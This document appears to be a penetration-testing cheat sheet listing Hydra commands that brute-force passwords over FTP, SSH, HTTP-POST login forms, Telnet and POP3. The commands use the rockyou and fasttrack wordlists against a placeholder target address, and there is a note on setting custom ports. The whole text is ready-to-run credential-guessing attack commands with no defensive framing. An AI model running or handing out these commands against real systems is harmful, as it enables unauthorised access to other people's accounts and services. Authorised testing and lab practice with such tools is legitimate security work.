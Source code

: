 FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip ftp -f -W 5 -t 64
```

SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip ssh -f -W 5 -t 64
```

HTTP-POST
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip http-post-form -f -W 5 -t 64 "/login.php:username=^USER^&password=^PASS^:Login failed"
```

TELNET
```
hydra -l user -P /usr/share/wordlists/rockyou.txt $ip telnet -f -W 5 -t 64
```

POP3
```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt $ip pop3 -f -W 5 -t 64
```

- You can specify a custom port for any protocol using the `-s` (port) flag